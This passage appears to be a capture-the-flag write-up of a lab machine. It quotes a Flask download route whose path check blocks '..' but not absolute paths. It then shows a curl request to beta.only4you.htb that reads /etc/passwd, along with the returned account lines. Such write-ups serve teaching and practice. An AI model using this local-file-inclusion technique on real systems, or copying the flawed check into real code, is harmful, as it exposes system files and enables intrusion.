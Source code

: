 Great so we found, a subdomain called `beta` lets add it to our `/etc/hosts` and run it in the browser.

As soon it we open it up in the browser there is a button, if you click it you can download the source code for this site. After downloading the source and analyizing it a little bit, I stumbled upon a function called `download`:

```

@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image)
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)

```

This function is called when the `/download` directory is set in the url. So lets analyze it:

first we get a request parameter called image then we take that image and we normilize its path to a variable called `filename` after that there are a couple of `if` statements to check:
1. check if that file name includes the `..` or begins with `../` this type of check is done to prevent malicious attacks like LFI. 
2. check if the path is not absolute, if it's not then it will join it to the path of the list folder.
3. the third and final check is if the filename is a real file, if it is then it will download the specified file.

We can get LFI from this function. This is because the `send_file` function returned from `download` is not sanatized, if we enter any sort of file that exists in the file system, use it's absolute path and don't use and sort of dots(`..` or `../`) then it will send that file to be downloaded.

it's very easy and it goes like this:

```

$ curl -s http://beta.only4you.htb/download --data "image=/etc/passwd" | grep "bash"
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:john:/home/john:/bin/bash
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash

```
